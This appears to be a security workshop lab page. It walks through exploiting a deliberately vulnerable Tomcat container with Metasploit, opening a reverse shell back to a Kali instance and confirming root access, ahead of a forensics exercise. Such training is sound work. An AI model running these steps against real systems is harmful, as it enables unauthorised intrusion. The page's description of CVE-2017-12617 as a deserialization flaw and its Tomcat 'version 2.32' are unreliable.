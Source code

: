 ```yaml
---
title: "Lab 2: Attacking the Tomcat service"
weight: 3
---
```


**Launching the attack**

This exploit leverages a deserialization vulnerability in Apache Tomcat (version 2.32, CVE-2017-12617) to execute arbitrary code and shovel an administrative shell back to a listener service on the Kali instance for command and control access to the exploited host.

We'll launch the Metasploit “resource script” we viewed in the previous section. A resource script is essentially a batch script for Metasploit which you can use to automate common tasks. See the following link for more information about Metasploit resource files.

https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit__resource_files.md#what-are-resource-files

Now we’ll complete the setup of our Kali environment by creating the required configuration files to launch the attack against the DNS address and exploit script we already identified.

Complete the setup of the _startup.rc_ file

```shell
./start-msploit.sh
```

Examine the contents of the resulting “startup.rc” file

```shell
cat ./startup.rc
```

![Contents of startup.rc](/static/img/start.png)

- We are using the “tomcat_jsp_upload_bypass’ exploit resource script
- rhosts is the DNS address of the Application Load Balancer used to reach the vulnerable system
- rport is the target port
- The LHOST is the public IP associated with the Kali instance
- The LPORT is the local port that the Kali instance will listen on for the shovel connection
- The REVERSELISTNERBINDADDRESS is the local ip address assigned to the Kali instance in the VPC
- Payload java/jsp_shell_reverse_tcp is a package we will load onto the target so we can send commands to the target system.

Write Kali’s public IP to a variable and make a note of it.

```shell
KALI_PUB_IP=$(aws ec2 describe-instances --filters "Name=tag:Name,Values=Kali" --query 'Reservations[].Instances[].PublicIpAddress' --output text)

echo $KALI_PUB_IP
```

::alert[Copy the Kali Public IP address somewhere for later use!]{header="Note"}

Before initiating the attack, we’re going to record the time for our forensic investigation later on.

```shell
date
```

Launch Metasploit with the startup.rc script that has all the necessary parameters for the target

```shell
sudo msfconsole -r startup.rc
```

::alert[Ignore any “unable to resolve host” errors]{header="Note"}

Type “yes” if prompted to set up a new database, and accept the defaults

![Launching Metasploit](/static/img/runstart.png)

Examining the output we can observe the following

1. We load the tomcat_jsp_upload_bypass
1. Set the rhosts (target of the attack) as the DNS address of the load balancer
1. We set the target port to 80
1. We set the LHOST as the public IP address associated with the Kali network interface (required for the remote shell that we are trying to create to our Kali instance)
1. We set the listening port for the reverse shell to 443
1. We attempt to bind Kali to the local IP address of the Kali network interface
1. We created a new session which is a reverse shell connection to the Kali instance

**Establish a reverse shell**

Metasploit has indicated that we successfully created a reverse shell connection from the vulnerable web app pod to the Kali instance.

_List active sessions_

```shell
sessions -i
```

![Metasploit sessions](/static/img/sessions.png)

Connect to the active session

```shell
sessions <<id>>
```

![Connect to Metasploit session](/static/img/session1.png)

View your logged in identity

```shell
whoami
```

![Logged in users](/static/img/whoami.png)

_List the root directory on the compromised container_

```shell
ls -al
```

![Directory listing](/static/img/ls.png)

::alert[We appear to have the aws cli installed on the container, a risky practice but potentially helpful to the attacker. (We will return to this later.) You will also discover that we have the ability to install additional software as required.]{header="Note"}

At this point we have determined that we have privileged, root-level access on the container itself. In the next phase of the attack, we will explore what we might achieve with this level of access.
